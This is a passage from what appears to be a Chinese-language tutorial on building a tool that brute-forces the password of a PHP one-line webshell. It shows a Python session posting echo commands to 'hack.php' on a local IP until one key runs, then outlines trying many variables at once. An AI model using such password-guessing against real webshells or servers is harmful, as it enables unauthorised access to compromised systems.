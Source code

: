 ![Alt text](./pic/1482072518231.png)



```
promote:~ v5est0r$ pip install requests
promote:~ v5est0r$ python
Python 2.7.12 (v2.7.12:d33e0cf91556, Jun 26 2016, 12:03:00) 
[GCC 4.2.1 (Apple Inc. build 5577)] on darwin
Type "help", "copyright", "credits" or "license" for more information.
>>> import requests
>>> data = {'123': 'echo "password is 123";'}
>>> r = requests.post('http://192.168.1.103/hack.php', data=data)
>>> print(r.text)


>>> data2 = {'v5est0r': 'echo "password is v5est0r";'}
>>> r = requests.post('http://192.168.1.103/hack.php', data=data2)
>>> print(r.text)
password is v5est0r
>>> 
```


思路有了，开始一点一点在代码中实现，下面的代码体现了：

>判断该变量是是否与一句话木马变量匹配

>尝试多变量提交数据

>清空字典并尝试向添加新的变量

